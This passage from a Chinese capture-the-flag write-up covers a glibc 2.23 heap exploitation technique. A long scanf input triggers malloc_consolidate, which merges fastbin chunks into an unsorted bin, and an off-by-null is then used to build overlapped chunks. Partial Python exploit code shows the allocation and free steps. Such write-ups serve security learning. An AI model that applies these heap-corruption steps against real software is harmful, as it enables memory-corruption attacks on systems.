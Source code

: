 #### <a class="reference-link" name="%E5%B0%8F%E5%A7%BF%E5%8A%BF"></a>小姿势

在输入选项的时候，通过scanf输入，当输入非常长的字符创的时候，即使我们使用setbuf()关闭了输入缓冲区，还是依旧会暂时申请一个large chunk来存储输入的字符串。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01258f7ac275ab8db1.png)

那么在分配large chunk之前会调用malloc_consolidate()函数，使得fastbin中的chunk合并，通过这个小技巧我们就可以实现获得unsorted bin了，那么我们的off_by_null也可以派上用场来帮助我们构造overlapped chunk实现利用了。源码如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012f6cad9e626b51d0.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%85%B7%E4%BD%93%E6%B5%81%E7%A8%8B"></a>利用具体流程

glibc环境： glibc-2.23-0ubuntu10

当初复现的时候参考了[Ne0][[https://changochen.github.io/2018-11-09-hctf.html]师傅的博客](https://changochen.github.io/2018-11-09-hctf.html%5D%E5%B8%88%E5%82%85%E7%9A%84%E5%8D%9A%E5%AE%A2)

#### <a class="reference-link" name="%E6%9E%84%E9%80%A0overlapped%20chunk"></a>构造overlapped chunk
1. 我们首先malloc许多chunk，然后放进fastbin，在紧接着通过触发malloc_consolidate()获得unsorted bin。
```
#prepare 0x140 size unsorted bin
    alloc(0x37,'x00'*0x37)#idx 0   0x40
    alloc(0x37,'x01'*0x37)#idx 1   0x80
    alloc(0x37,'x02'*0x37)#idx 2   0xc0
    alloc(0x37,'x03'*0x37)#idx 3   0x100  
    alloc(0x37,'x00'*0x37)#idx 4   0x140

    #prepare a chunk
    alloc(0x37,'x00'*0x37)#idx 5 

    #prepare chunks between idx 5 and top_chunk.
    alloc(0x37,'x06'*0x37)#idx 6
    alloc(0x37,'x07'*0x37)#idx 7
    alloc(0x37,'x06'*0x37)#idx 8
    alloc(0x37,'x07'*0x37)#idx 9
    alloc(0x37,'x06'*0x37)#idx 10

    #put chunk in fastbin 
    for i in range(5):
        delete(i)

    #trigger the malloc_consolidate() to merge the fastbin.
    sla('Choice:','1'*0x500)
    # now the fastbin chunks have been put into the unsorted bin , whose size is 0x140.And the idx5_presize = 0x140.
```
